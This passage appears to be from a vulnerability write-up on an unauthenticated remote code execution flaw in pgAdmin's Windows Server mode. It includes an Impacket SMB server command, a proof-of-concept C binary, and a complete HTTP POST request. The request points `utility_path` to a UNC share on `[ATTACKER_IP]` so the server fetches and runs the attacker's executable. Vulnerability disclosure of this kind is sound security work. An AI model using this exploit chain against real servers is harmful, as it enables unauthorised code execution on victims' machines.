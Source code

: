 At [1] the HTTP route handler is defined with `/validate_binary_path` being the corresponding URI part to trigger the code. We expect this to come in as `POST` request. `request.data` is read and at [2] the `utility_path` POST body parameter is processed within an `if` block. We don't really care about the function at [3], you might check yourself "why".
But at [4] a constant named `UTILITIES_ARRAY` seems to heavily restrict our final input later flowing into the `subprocess` call. `constants.py` tells us that `UTILITIES_ARRAY = ['pg_dump', 'pg_dumpall', 'pg_restore', 'psql']`. Fine, but at [5] we still control the now named `binary_path` variable, right? We control the **path** but not the file name being executed in the dangerous final sink at [6]. Also you might have observed that the `flask_login` module provides a `@login_required` annotation (check other routes of the web app) to check for an authenticated context. This is missing here, so we should at least be able to **reach this route from an unauthenticated context**. You can indeed!

But you know, this is Python and the Server mode setup guide mentioned in the beginning also describes an installation on **Windows**. I won't go into a detailed step-by-step guide to install pgAdmin in Server mode on Windows because this took me over 3 hours and would make my blog post title obsolet \*cough\*.

If your patient enough, you could try to use your Python CLI on Windows to check what happens after using an **UNC path to a remote share** in the `os.path.abspath(os.path.join(...))` construct. Guess what, it will work as expected and the file would have been retrieved, read, called, whatever.

Let's try this by setting up an SMB server on our Linux attacker machine using the famous [Impacket suite](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py).

```bash
./smbserver.py myshare $HOME/tmp
```

In my `tmp` directory I create a file named after a randomly chosen entry from the list `UTILITIES_ARRAY`, e.g. `pg_dump[.exe]`. Well, not totally random content, we want to do it right the first time. So let's create an `.exe` using the `mingw` cross-compiler and `pg_dump.c` like this.

```C
void main() {
 system("cmd.exe /K mspaint");
}
```

Now `POST /misc/validate_binary_path HTTP/1.1` should trigger the vulnerable code path. Depending on your pgAdmin Windows installation, you've to fetch a Cookie and CSRF-token first from either browsing to `/`, `/login` or `/browser`. It's possible for any installation type, so we just assume you were able to retrieve the content for the `X-pgA-CSRFToken` header for now. The final payload looks like this.

```
POST /misc/validate_binary_path HTTP/1.1
Host: [TARGETHOST]
Cookie: [COOKIES_YOU_FETCHED_IN_ADVANCE]
X-pgA-CSRFToken: [CSRF_TOKEN_YOU_FETCHED_IN_ADVANCE]
Connection: close
Referer: https://[TARGETHOST]/browser/
Content-Length: [n]
Content-Type: application/json
{"`utility_path":"\\\\[ATTACKER_IP]\\[PREFERED_SHARE_NAME]"}
```

